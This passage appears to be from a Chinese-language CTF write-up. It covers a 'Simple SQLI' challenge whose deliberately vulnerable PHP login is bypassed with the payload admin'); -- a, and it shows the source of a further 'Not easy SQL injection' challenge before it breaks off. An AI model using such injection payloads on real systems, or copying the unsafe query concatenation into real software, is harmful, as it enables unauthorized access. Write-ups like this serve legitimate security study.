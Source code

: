 然后就拿到了 flag。

## Simple SQLI

首先先直接访问，感觉 UI 好像跟上一题差不多，并且 F12 发现注释里有一句 "web11.php.bak"。访问这个页面，获得 PHP 源代码（下面的代码也是稍微格式化过的，并且删掉了一些无关紧要的部分）。

``` php
<?php
include("../web9/db.php");

$user = $_POST["user"];
$pass = md5($_POST["pass"]);

$sql = "select user from php where (user='$user') and (pw='$pass')";
$query = mysql_query($sql);
$row = mysql_fetch_array($query, MYSQL_ASSOC);
if ($row["user"] == "admin") {
  echo "<p>Logged in! Key: *********** </p>";
} else {
  echo("<p>You are not admin!</p>");
}
```

这道题注起来似乎比上一题还简单，因为 `$user` 就是一个十分可控的注入点。直接令 `user` 为 `admin'); -- a`，就能拼出这么个查询 SQL：

``` sql
select user from php where (user='admin'); -- a') and (pw='$pass')
```

![](Simple_SQLI.png)

然后就能获得 flag 了。连 `pass` 都不用管。

## Not easy SQL injection

直接访问，然后获得 PHP 源代码（下面的代码是稍微格式化过的）。

``` php
<?php
# $yourInfo=array(
#   'id'    => 1,
#   'name'  => 'admin',
#   'pass'  => 'xxx',
#   'level' => 1
# );
require 'db.inc.php';

$_CONFIG['extraSecure'] = true;

foreach (array('_GET', '_POST', '_REQUEST', '_COOKIE') as $method) {
  foreach ($$method as $key => $value) {
    unset($$key);
  }
}

$kw = isset($_GET['kw']) ? trim($_GET['kw']) : die('Please enter in a search keyword.');

if ($_CONFIG['extraSecure']) {
  $kw = preg_replace('#[^a-z0-9_-]#i','',$kw);
}

$query = 'SELECT * FROM messages WHERE message LIKE \'%'.$kw.'%\';';

$result = mysql_query($query);
if (mysql_errno()) die(mysql_error());
```